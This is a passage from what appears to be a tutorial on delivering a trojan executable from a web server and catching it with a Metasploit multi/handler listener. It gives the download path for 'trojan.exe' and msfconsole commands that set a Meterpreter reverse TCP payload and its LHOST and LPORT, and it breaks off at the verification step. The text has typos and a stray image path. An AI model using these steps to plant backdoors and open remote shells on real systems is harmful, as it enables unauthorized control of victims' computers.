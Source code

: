 Open a browser and enter your server's IP address to access the website. The successful page bashould look like this:

## Downlaod the File

Use a browser to enter your IP address and the file name to test the download. The successful page bashould look like this:

```
123.123.123.123/trojan.exe
```

## Metasploit Listener

After confirming the file can be downloaded, we need to use the `msfconsole` to set up the listener.

Open Metasploit:

```bash
msfconsole
```

### Use the Specified Module

Enter the following commands to create our listener of reverse TCP:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```

### Set Payload Options

In the console, the program does not yet know the information about your backdoor program. We need to modify the configuration to let the console know where the exploit is.

Show current options:

```sh
show options
```

You will see two options that need to be modified: `LHOST` and `LPORT`. Set them to your public IP and the TCP port you opened.

Set the IP address:

```sh
set LHOST [IPV4_Address]
```

Set the port number:

```sh
set LPORT [Port_Number]
```

### Verify the Settings
